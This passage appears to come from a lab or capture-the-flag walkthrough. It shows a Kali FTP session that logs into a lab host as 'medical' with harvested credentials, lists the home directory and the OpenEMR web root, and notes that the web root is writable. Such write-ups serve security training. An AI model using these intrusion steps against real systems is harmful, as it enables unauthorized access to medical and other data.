 ### 4. Access FTP
Take these credentials and try them over FTP. Admin doesn't work, but medical does.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ ftp 192.168.34.130
Connected to 192.168.34.130.
220 ProFTPD 1.3.3d Server (ProFTPD Default Installation) [192.168.34.130]
Name (192.168.34.130:kali): medical
331 Password required for medical
Password:
230 User medical logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr--r--   2 medical  medical      4096 Nov  5  2011 Desktop
drwx------   2 medical  medical      4096 Nov  5  2011 Documents
drwx------   2 medical  medical      4096 Oct 27  2011 Downloads
drwx------   2 medical  medical      4096 Jan 19  2010 Movies
drwx------   2 medical  medical      4096 Jan 19  2010 Music
drwx------   2 medical  medical      4096 Oct 27  2011 Pictures
drwxr-xr-x   2 medical  medical      4096 Jul 20  2011 Templates
drwxr-xr-x   2 medical  medical      4096 Jul 20  2011 Videos
drwx------   9 medical  medical      4096 Nov  5  2011 tmp
226 Transfer complete
```
It turns out, this access provides wide-open access to all the files on the machine with the permissions of "medical". This includes the web root. Although most of the directories are owned by "root" in here for some reason, the openemr directory is owned by "medical" and so files can be written into it.
```bash
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 medical  medical     19798 Sep 21  2011 4_1_prep_release
-rwxr-xr-x   1 medical  medical     22442 Sep 21  2011 CategoryTreeMenu.js
-rwxr-xr-x   1 medical  medical     22817 Sep 21  2011 DocumentTreeMenu.js
drwxr-xr-x   4 medical  medical      4096 Sep 21  2011 Documentation
-rw-r--r--   1 medical  medical     14299 Sep 21  2011 INSTALL
-rw-r--r--   1 medical  medical       414 Sep 21  2011 README
drwxr-xr-x   2 medical  medical      4096 Sep 21  2011 Tests
drwxr-xr-x   2 medical  medical      4096 Sep 21  2011 accounting
-rw-r--r--   1 medical  medical     14926 Sep 21  2011 acl_setup.php
-rw-r--r--   1 medical  medical     29444 Sep 21  2011 acl_upgrade.php
-rw-------   1 medical  medical      3707 Sep 21  2011 admin.php
drwxr-xr-x   4 medical  medical      4096 Sep 21  2011 ccr
drwxr-xr-x   7 medical  medical      4096 Sep 21  2011 contrib
-rw-r--r--   1 medical  medical       133 Sep 21  2011 controller.php
drwxr-xr-x   2 medical  medical      4096 Sep 21  2011 controllers
-rw-r--r--   1 medical  medical      2873 Sep 21  2011 copyright_notice.html
drwxr-xr-x   2 medical  medical      4096 Sep 21  2011 custom
drwxr-xr-x   9 medical  medical      4096 Sep 21  2011 gacl
drwxr-xr-x   2 medical  medical      4096 Sep 21  2011 images
drwxr-xr-x   2 medical  medical      4096 Sep 21  2011 includes
-rw-r--r--   1 medical  medical       999 Sep 21  2011 index.php
drwxr-xr-x  25 medical  medical      4096 Sep 21  2011 interface
-rw-r--r--   1 medical  medical      4850 Sep 21  2011 ippf_upgrade.php
drwxr-xr-x  14 medical  medical      4096 Sep 21  2011 library
-rw-r--r--   1 medical  medical     18010 Sep 21  2011 license.txt
-rw-r--r--   1 medical  medical      2109 Sep 21  2011 login.php
drwxr-xr-x   3 medical  medical      4096 Sep 21  2011 modules
drwxr-xr-x   3 medical  medical      4096 Sep 21  2011 myportal
```